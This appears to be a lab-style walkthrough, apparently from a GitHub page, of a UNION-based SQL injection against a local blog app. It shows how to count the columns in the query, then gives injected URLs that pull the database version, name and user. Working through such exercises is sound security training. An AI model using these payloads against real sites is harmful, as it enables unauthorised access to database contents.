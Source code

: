For getting database version you need to be able to get information out throuth the Web interface.
To do that you have to use the **UNION** statement of MySQL. But *there is a catch**: the UNION statement requieres that the number of columns in the first query to be the same that in the second query.
So you first have to identify the number of columns of a single post.
Watching the post is the first aproach for that. You can see for example tha the post title is a column, and others might be:
- creation date,
- user avatar,
- user name,
- post title,
- post body,
- the tags of the post.

At least 7 columns.
Then we can do this:

```shell
http://localhost:8080/p/2 UNION SELECT 1,2,3,4,5,6,7/slug-name-post'
```

And we get this error for response:
```javascript
{
  "status": "Error",
  "message": "ER_WRONG_NUMBER_OF_COLUMNS_IN_SELECT: The used SELECT statements have a different number of columns"
}
```

This error indicate that the number of columns is not correct. So we keep adding numbers until we stop getting this erros

```shell
http://localhost:8080/p/2 UNION SELECT 1,2,3,4,5,6,7,8,9/slug-name-post'
```

We can see that the right number of columns is 9. Great! 

Now all we have to do is getting the info we need out.

To do this we have to call a post with that not exist. May be postId=-1, or 10000, like this:
```shell
http://localhost:8080/p/-1 UNION SELECT 1,2,3,4,5,6,7,8,9/slug-name-post'
```

And we get all our numbers in the screen! This is great!
Ok, now for the **engine version** just replace one of the number with a query, like this:

```shell
http://localhost:8080/p/2 UNION SELECT 1,version(),3,4,5,6,7,8,9/slug-name-post'
```

For the **database name** just replace one of the number with another query, like this:

```shell
http://localhost:8080/p/2 UNION SELECT 1,database(),3,4,5,6,7,8,9/slug-name-post'
```

And finally, for the **user** you can do this:

```shell
http://localhost:8080/p/2 UNION SELECT 1,user(),3,4,5,6,7,8,9/slug-name-post'
```
